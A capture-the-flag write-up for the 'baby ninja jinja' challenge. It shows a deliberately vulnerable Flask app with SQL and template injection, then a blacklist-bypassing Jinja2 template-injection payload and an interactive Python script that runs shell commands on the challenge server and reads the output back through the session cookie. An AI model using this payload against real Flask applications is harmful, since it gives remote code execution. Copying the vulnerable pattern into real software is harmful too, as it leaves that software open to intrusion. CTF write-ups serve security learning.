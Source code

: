 # baby ninja jinja
![Screenshot from 2021-08-19 20-05-55](https://user-images.githubusercontent.com/87865134/130073504-107bfaac-b01f-42ea-a657-d8cc051ac7cb.png)

## Information gathering
- found `/debug` path and have source code:
```python
from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools, sqlite3, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)

acc_tmpl = '''{% extends 'index.html' %}
{% block content %}
<h3>baby_ninja joined, total number of rebels: reb_num<br>
{% endblock %}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        get_db().cursor().executescript(f.read())

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()

def rite_of_passage(func):
    @functools.wraps(func)
    def born2pwn(*args, **kwargs):

        name = request.args.get('name', '')

        if name:
            query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report

            return render_template('welcome.jinja2')
        return func(*args, **kwargs)
    return born2pwn

@app.route('/')
@rite_of_passage
def index():
    return render_template('index.html')

@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=True)
```

## Analysis
- website use `Flask` template
- value of parameter `?name=` to be saved into database and then select -> `render_template_string()` => maybe **Server-side Template Injection**
- website use blacklist to prevent vulnerability: `{{`, `'`, `"`, `<`, `>` => can't use `{}`. However, we can use `{% %}` to perform injection
- Result of code injection doesnt show in response. 
- In source we see `import session, request` 
  - can use `session` to show result of code injection
  - can use `request` to bypass `'` and `"` or use `chr()`
  
- How to attack:
  - injection code
  - check `session` in `cookie` of Http response
  - decode `session` to view result

## Exploit
- Injection code
  - blacklist: `{{`, `'`, `"`, `<`, `>`
  - payload:

```python     
{% if session.update({1:config.__class__.__init__.__globals__[request.args.os].popen(request.args.command).read()})==1 %}{% endif %}&os=os&command=ls
```
- Python script
```python
import requests
import flask_unsign

url = 'http://142.93.35.92:31857'


while(1):
    cmd = input("command: ")
    if cmd == "q":
        exit()
    payload = "/?name={%+if+session.update({1:config.__class__.__init__.__globals__[request.args.os].popen(request.args.command).read()})+==+1+%}{%+endif+%}&os=os&command="+cmd
    res = requests.Session()
    res.get(url + payload)
    session_cookie = res.cookies.get_dict()['session']
    print(flask_unsign.decode(str(session_cookie))['1'].decode())
```
- run script and get flag

![Screenshot from 2021-08-19 21-52-50](https://user-images.githubusercontent.com/87865134/130090898-9fa2b7d0-aa39-4dca-90b7-0fa3c402d014.png)

## Description
- **category:** Server-side Template Injection

## Reference
- https://flask.palletsprojects.com/en/2.0.x/quickstart/#rendering-templates
